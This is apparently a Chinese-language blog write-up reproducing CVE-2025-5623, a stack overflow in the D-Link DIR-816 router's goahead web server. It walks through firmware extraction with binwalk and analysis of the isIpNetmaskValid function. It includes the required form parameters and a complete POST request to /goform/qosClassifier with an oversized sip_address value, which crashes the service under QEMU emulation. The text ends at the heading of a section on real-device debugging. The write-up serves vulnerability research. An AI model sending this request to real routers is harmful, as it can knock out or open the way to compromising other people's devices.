

# CVE-2025-5623 DIR816 路由器栈溢出复现

## 路由器漏洞分析

在官网下载对应版本固件

https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

使用 `binwalk` 查看信息，没有加密对其直接进行解包，提取出系统进行分析。

```bash
binwalk -Me DIR-816A2_FWv1.10CNB05_R1B011D88210.img
find ./ -iname 'busybox'
cp -r ./extractions/DIR-816A2_FWv1.10CNB05_R1B011D88210.img.extracted/0/Linux_Kernel_Image.bin.extracted/1822EE/squashfs-root/ .
```


这个漏洞存在于 `/bin/goahead` 程序中 `isIpNetmaskValid` 函数中，由于主调函数的 `sip_address` 和 `dip_address` 参数可控，在其后传参并调用的此函数中，直接对字符串进行了写入操作，无论传入参数长如为何，都会被复制到 `local_30` 变量中，涉及到有危险的入口函数有三个 `FUN_0044ab48` `FUN_0044dde8` 和 `FUN_0046bb80`，在这里我使用了 `FUN_0046bb80` 进行漏洞复现。

( `FUN_0046bb80` 中，关于 `sip_address` 和 `dip_address` 的获取。 )


( `FUN_0046bb80` 中，将 `sip_address` 和 `dip_address` 传入危险函数。 )


( `isIpNetmaskValid` 中，漏洞片段。 )


也就是我们可以使用 `sip_address` 或 `dip_address` 参数，对其进行栈溢出攻击。接着，我们去寻找漏洞的接口点，首先，根据后面的判定写一些padding保证程序能够向下运行到目标函数，然后补充最简单的漏洞测试脚本。


得到的必须参数：

```nginx
dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=vul
```

然后，对交叉引用进行跟踪，发现函数 `formDefineFirewall` 定义了相关的接口调用。


于是，我们可以了解最终调用的接口是 `/goform/qosClassifier` ，最终包为：

```
POST /goform/qosClassifier HTTP/1.1
Content-Length: 471
Host: 192.168.1.2
Content-Type: application/x-www-form-urlencoded
Connection: close

dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 漏洞模拟复现

我们使用 qemu user 进行仿真模拟：

```bash
sudo chroot . ./qemu-mipsel-static -strace ./bin/goahead
```

然后对所有出现的报错进行patch修改，即使能看到多出天际的报错，至少是跑起来了，毕竟和真机的环境差了十万八千里。反正在咸鱼花费15巨资买了真机，在这里运行起来便是完事大吉。


我们使用 burp 对主页抓包，然后修改内容为我们的目标包：


可以看到我们仿真的程序出现了segmentation fault，应该是栈溢出的结果。



## 真机漏洞复现和调试